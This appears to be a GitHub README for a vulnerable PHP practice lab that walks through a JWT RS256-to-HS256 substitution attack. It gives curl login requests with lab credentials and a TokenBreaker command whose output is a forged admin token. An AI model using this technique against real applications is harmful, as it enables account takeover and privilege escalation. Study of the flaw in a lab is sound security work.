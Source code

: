 ## Php-Jwt-Substitution-Attack_Rsa256_to_Hs256


JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA.

https://jwt.io/

## Owasp 

https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_and_Securing_JWT.pdf

https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html


## Setup

install from my dockerhub : https://hub.docker.com/r/mhnamadi/jwt-php-rsa256tohs256


    docker run -tid -p 9090:80 mhnamadi/jwt-php-rsa256tohs256
    
    docker ps 
    
    docker exec -it ContainerID bash 
    
    service apache2 start
    
    service mysql start 
    
    Done :))    
    
## Description 

         We have 2 account securestore:securestore and admin:admin 
    
         We want to account takeover from securestore to admin account with this attack

## Payload 
  
        Login to securestore and get jwt RSA256
        

1. curl -i -s -k -X $'POST' -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 69' -H $'User-Agent:Mozilla/5.0(Macintosh; Intel Mac OS X 10.15;rv:97.0) Gecko/20100101 Firefox/97.0' --data-binary $'{\"name\": \"login\",\"param\":{\"user\":\"securestore\",\"pass\":\"securestore\"}}' $'http://192.168.1.104:9090/v3/'

![Getting Started](80.png)


        Login to admin and get jwt RSA256
        
        
2. curl -i -s -k -X $'POST' -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 57' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' --data-binary $'{\"name\": \"login\",\"param\":{\"user\":\"admin\",\"pass\":\"admin\"}}' $'http://192.168.1.104:9090/v3/'

![Getting Started](81.png)

3. the first is fuzzing on JWT token securestore and admin account 

![Getting Started](82.png)


![Getting Started](83.png)


4. We want to add "userId":"admin","isAdmin":"true" to secure store account 

        TokenBreaker is one of the best tools for JWT Attack
    
5. https://github.com/cyberblackhole/TokenBreaker    

## Attack 

        Use JWT securestore token and change payload
  
mhs-MacBook-Pro:TokenBreaker mhn$ python3 RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE2NDU0Nzc0NjYsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4NjQ2NiwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.NX6p76T2p5-DfhJcLHTJ64F_-xv6pl1iRFCrm4gDM-UPNpjmm2_1F0pfplcfrlIJEDgBQnMPe3245RLXk_gMWstJ1T3QehJIOMcBTruxbwzOUaOdF3IY-eBfeLgH0854xYnf0MW6rtezWD4a66VecsmjV3sUtRUcujF5ytpx_zqdAyEKT7dZTNLo-Wi8hTszLVhEFy_amLfIKOoWsDh43To3bvJU6OJZ1m8zAFc3Ur87GrL92wv1TToDDvmdrF9uubuZxD1tW6pek0U--DQLmcgegsKLl4_JPQNdxfmS5Eycku09IaA-4a68nrEZOPfyq-1-0lTaB_xlcDVQfFAT-g -p public.pem 

[<] Enter Your Payload value: {"iat":1645479477,"iss":"localhost","exp":1645488477,"userId":"admin","isAdmin":"true"}

[+] Successfully Encoded Token: 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NDU0Nzk0NzcsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4ODQ3NywidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.MdUsaQIPcVsIggim6PKt91wTsTFcWQwwwI5UIX048i8


![Getting Started](84.png)

## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md

## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 

